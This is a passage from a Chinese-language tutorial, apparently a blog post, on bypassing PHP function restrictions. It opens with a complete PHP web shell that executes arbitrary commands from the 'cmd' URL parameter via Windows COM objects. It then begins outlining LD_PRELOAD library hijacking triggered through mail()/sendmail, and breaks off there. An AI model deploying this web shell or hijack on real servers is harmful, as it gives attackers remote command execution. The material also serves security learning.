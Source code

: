     <?php  
    $wsh = isset($_GET['wsh']) ? $_GET['wsh'] : 'wscript';  
    if($wsh == 'wscript') {  
        $command = $_GET['cmd'];  
        $wshit = new COM('WScript.shell') or die("Create Wscript.Shell Failed!");  
        $exec = $wshit->exec("cmd /c".$command);  
        $stdout = $exec->StdOut();  
        $stroutput = $stdout->ReadAll();  
        echo $stroutput;  
    }  
    elseif($wsh == 'application') {  
        $command = $_GET['cmd'];  
        $wshit = new COM("Shell.Application") or die("Shell.Application Failed!");  
        $exec = $wshit->ShellExecute("cmd","/c ".$command);  
    }   
    else {  
      echo(0);  
    }  
    ?>  
    

  

##

![](https://gitee.com/fuli009/images/raw/master/public/20210820102313.png)

## 利用Linux环境变量LD_PRELOAD  

### 初阶

    
    
    LD_PRELOAD是linux系统的一个环境变量，它可以影响程序的运行时的链接，它允许你定义在程序运行前优先加载的动态链接库。  
    

总的来说就是=`LD_PRELOAD`指定的动态链接库文件，会在其它文件调用之前先被调用，借此可以达到劫持的效果。

思路为:

  1. 创建一个.so文件,linux的动态链接库文件
  2. 使用putenv函数将`LD_PRELOAD`路径设置为我们自己创建的动态链接库文件
  3. 利用某个函数去触发该动态链接库

这里以`mail()`函数举例。在底层c语言中,`mail.c`中会调用`sendmail`，而sendmail_path使从ini文件中说明

    
    
    ; For Unix only.  You may supply arguments as well (default: "sendmail -t -i").   
    ;sendmail_path =  
    

默认为"sendmail -t -i"

![](https://gitee.com/fuli009/images/raw/master/public/20210820102314.png)

但是sendmail并不是默认安装的,需要自己下载  
